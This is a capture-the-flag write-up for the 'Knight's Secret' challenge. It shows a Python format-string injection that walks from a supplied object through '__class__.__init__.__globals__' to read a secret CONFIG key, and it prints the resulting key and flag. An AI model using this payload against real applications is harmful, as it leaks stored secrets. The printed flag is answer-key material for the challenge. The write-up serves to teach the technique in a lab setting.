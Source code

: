## Knight's Secret
> **Description**: Exploit & get the flag.
> 
> Connection Info: nc 45.56.68.122 1337

> **Author**: NomanProdhan

We aren't given any files for this challenge. Connecting to the server we can see this:
```
└─$ nc 45.56.68.122 1337
==================================================
Welcome to the Knight's Secret!
The castle's vault holds a secret key, protected within the CONFIG dictionary.
You are a knight tasked with proving the strength of the vault's defenses.
To succeed, you must craft an input to reveal the hidden key within the system.
You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
Once you discover the key, input it again to receive the banner of victory.

Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
Type 'hint' if you need guidance or 'exit' to withdraw from the quest.
==================================================

Enter your secret: 
```

Entering the safe template given shows:

```
Enter your secret: Greetings, {person_obj.name}, the {person_obj.role}
Output: Greetings, Brave Knight, the Defender of the Realm
```

After much trail and error I was able to figure out that the program running on the server would only taken in objects as input. So using this, we need to get the `CONFIG` library. Using `{person_obj.__class__.__init__.__globals__}` we can see the following:

```
Enter your secret: {person_obj.__class__.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x72e3aa43b920>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x72e3aa422340>, 'main': <function main at 0x72e3aa200d60>}
```

The key `_KNIGHTSECRET2025_` has the flag. Entering `{person_obj.__class__.__init__.__globals__[CONFIG][KEY]}` gives:

```
Enter your secret: {person_obj.__class__.__init__.__globals__[CONFIG]} 
Output: {'KEY': '_KNIGHTSECRET2025_'} 

Enter your secret: {person_obj.__class__.__init__.__globals__[CONFIG][KEY]}
Congratulations, noble knight! You have unveiled the vault's secret.
Here is your banner of victory: KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}
```
